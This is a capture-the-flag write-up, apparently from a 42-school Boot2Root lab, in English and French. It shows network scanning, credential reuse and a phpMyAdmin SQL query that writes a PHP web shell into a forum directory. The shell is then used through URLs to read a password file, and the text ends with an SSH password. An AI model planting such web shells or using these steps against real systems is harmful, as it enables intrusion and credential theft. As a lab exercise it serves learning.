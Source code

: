  ```
 ____              _   ___  _____             _   
 |  _ \            | | |__ \|  __ \           | |  
 | |_) | ___   ___ | |_   ) | |__) |___   ___ | |_ 
 |  _ < / _ \ / _ \| __| / /|  _  // _ \ / _ \| __|
 | |_) | (_) | (_) | |_ / /_| | \ \ (_) | (_) | |_ 
 |____/ \___/ \___/ \__|____|_|  \_\___/ \___/ \__|
 ```
 
After the setup we are presented with 

![BorntoSec](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/setup.png)



-----------------------------------------------------------------------------------

## Information gathering

The first step is to understand what we can gain access to and where is it located.

* First step is to find the ip of the VM by using ifconfig 
ifconfig should display a range of IP for the vm between 1 and 255

* Second step is to use ***nmap*** in order to uncover wich ports are open by executing: ```nmap <IP>.1-255```

This gives back the precise IP and the open ports:
```
Nmap scan report for 192.168.99.100
Host is up (0.00048s latency).
Not shown: 994 closed ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps
```
From this we know that the exact ip ends with .100
80 should be open and accessible Through a web browser

We are presented to a basic webpage:
![website](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/website.png)


* Now that we know the IP we're going to use DIRB to gather information about the file structure
[DIRB!](https://sourceforge.net/projects/dirb/files/)
DIRB is a tool that uses dictionaries of common file systems naming paterns in order uncover their presence.


```
./dirb https://192.168.99.100/ wordlists/common.txt -w
```

We uncover :

- https://192.168.99.100/forum/  with subfolders:
  - js
  - lang
  - modules
  - templates_c
  - themes
  - update
- https://192.168.99.100/phpmyadmin/
- https://192.168.99.100/webmail/
--------------------

Lets start by accessing the forum. There's a link that displays the users and what they posted, lmezard posted "Probleme login ?"  

![forum](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/forum1.png)

It links to a log output of what seems to be admin logins 

When looking for the lmezard "Failed password for invalid user", one line seems very out of place: ```Failed password for invalid user !q\]Ej?*5K5cy*AJ```

Could this be lmezard's password? :smirk:

With this password we can then login to the forum with lmezard's credentials and discover that her email address is laurie@borntosec.net

Let's try to log to the webmail with this email and the same password:

![webmail](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/webmail.png)

Nice...
Let's check the mail DB ACCESS:

-->
Hey Laurie,

You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$

Best regards.
-->
***Bouyaaa !!!***



En magouillant un peu sur le login de phpmyadmin
login: root
pass: Fg-'kKXBj87E:aJ$

CA PASSE

On suis ce tuto :http://www.informit.com/articles/article.aspx?p=1407358&seqNum=2

Ils nous donnent:
select “<? System($_REQUEST[‘cmd’]); ?>” into outfile “/cmd.php”;

Cela permet d'inserer un shell basique qui prend des commandes via url, mais il faut trouver ou le placer

Vue que c'est un site web il sera en  /var/www/html/

en tentant les differents sous dossiers de dossier de forum (obtenus via DIRB)
on arrive finalement a placer dans template_c

SELECT "<? System($_REQUEST['cmd']); ?>" into outfile "/var/www/forum/templates_c/cmd.php";

A partir de la on peux lancer des commandes via le navigateur, notament ls pour comprendre l'arborecense

https://192.168.99.100/forum/templates_c/cmd.php?cmd=ls%20../../../../home

https://192.168.99.100/forum/templates_c/cmd.php?cmd=cat%20../../../../home/LOOKATME/password
Montre un dossier LOOKATME avec dedans un Login/Password :
lmezard:G!@M6f4Eatau{sF"

en se connectant en ftp on peut entrer ce password et acceder a un README : "Complete this little challenge and use the result as password for user 'laurie' to login in ssh"

et a un fichier fun

Ce fichier fun contiens des instructions:




Password SSH de Laurie

laurie / 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4

